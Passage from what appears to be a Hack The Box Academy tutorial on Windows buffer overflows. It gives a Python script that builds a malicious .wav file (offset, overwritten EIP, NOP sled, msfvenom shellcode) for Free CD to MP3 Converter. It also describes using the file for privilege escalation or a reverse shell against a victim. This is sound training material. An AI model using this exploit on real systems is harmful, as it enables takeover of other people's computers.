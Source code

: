 Code: python

```python
def exploit():
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'
    buf = b""
    ...SNIP...
    buf += b"\xfd\x2c\x39\x51\x60\xbf\xa1\xb8\x07\x47\x43\xc5"

    offset = 4112
    buffer = b"A"*offset
    eip = pack('<L', 0x00419D0B)
    nop = b"\x90"*32
    payload = buffer + eip + nop + buf

    with open('exploit.wav', 'wb') as f:
        f.write(payload)

exploit()
```

We can now run our code with `F5` in `IDLE` to generate the `exploit.wav` file. Once we do, we can run the `Free CD to MP3 Converter` program (we don't need to run it in `x32dbg`) and load our file to it:

![Calc](https://academy.hackthebox.com/storage/modules/89/win32bof\_calc.jpg)

As we can see, our program did crash, but we successfully exploited it and ran our shellcode, which opened `calc.exe`.

***

### Gaining Code Execution

The final step would be to utilize this exploit to gain code execution. Since we are dealing with a local buffer overflow running in a machine we have user-level access to, we will usually use this exploit to escalate our privileges to the admin user if a local admin executed this program. Another way to utilize this is by writing a malicious `.wav` file that sends back a reverse shell. We would then share this malicious file with a user that uses this vulnerable application and ask them to encode our malicious `.wav` file. When they do, we would receive a reverse shell and gain control over their PC.

To do either of these options, all we have to do is change our shellcode to do something else. For local privilege escalation, we can use the same command we used for `calc.exe`, but use `CMD=cmd.exe` instead, as follows:

&#x20; Jumping to Shellcode

```shell-session
root@htb[/htb]$ msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'

...SNIP...
buf =  b""
buf += b"\xd9\xc8\xb8\x7c\x9f\x8c\x72\xd9\x74\x24\xf4\x5d\x33"
buf += b"\xc9\xb1\x31\x83\xed\xfc\x31\x45\x13\x03\x39\x8c\x6e"
...SNIP...
```
